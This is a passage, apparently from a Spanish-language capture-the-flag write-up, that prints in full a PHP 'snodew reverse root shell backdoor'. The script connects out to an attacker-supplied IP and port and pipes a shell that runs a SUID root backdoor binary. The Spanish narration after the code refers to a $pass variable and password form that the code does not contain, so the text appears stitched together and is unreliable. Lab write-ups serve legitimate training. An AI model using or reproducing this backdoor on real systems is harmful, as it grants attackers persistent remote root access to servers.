```console
set_time_limit(0);

$host = htmlspecialchars("$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]", ENT_QUOTES, "UTF-8");
if(!isset($_GET["ip"]) || !isset($_GET["port"])) die("<h2><i>snodew reverse root shell backdoor</i></h2><h3>Usage:</h3>Locally: nc -vlp [port]</br>Remote: $host?ip=[destination of listener]&port=[listening port]");
$ip = $_GET["ip"]; $port = $_GET["port"];

$write_a = null;
$error_a = null;

$suid_bd = "/lib/defended/libc.so.99";
$shell = "uname -a; w; $suid_bd";

chdir("/"); umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if(!$sock) die("couldn't open socket");

$fdspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w"));
$proc = proc_open($shell, $fdspec, $pipes);

if(!is_resource($proc)) die();

for($x=0;$x<=2;$x++) stream_set_blocking($pipes[x], 0);
stream_set_blocking($sock, 0);

while(1)
{
    if(feof($sock) || feof($pipes[1])) break;
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    if(in_array($sock, $read_a)) { $i = fread($sock, 1400); fwrite($pipes[0], $i); }
    if(in_array($pipes[1], $read_a)) { $i = fread($pipes[1], 1400); fwrite($sock, $i); }
    if(in_array($pipes[2], $read_a)) { $i = fread($pipes[2], 1400); fwrite($sock, $i); }
}

fclose($sock);
for($x=0;$x<=2;$x++) fclose($pipes[x]);
proc_close($proc);
?>
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ 
```

Analizamos el código del fichero y vemos que en la primer línea se define una variable *$pass* seguida de un bloque que la compara el contenido del input *"password"* del form.

Volvemos al navegador, rellenamos el input con el valor de *$pass* y le damos al Enter. Nos aparece lo siguiente

![](/assets/posts/20220804/img10.png)

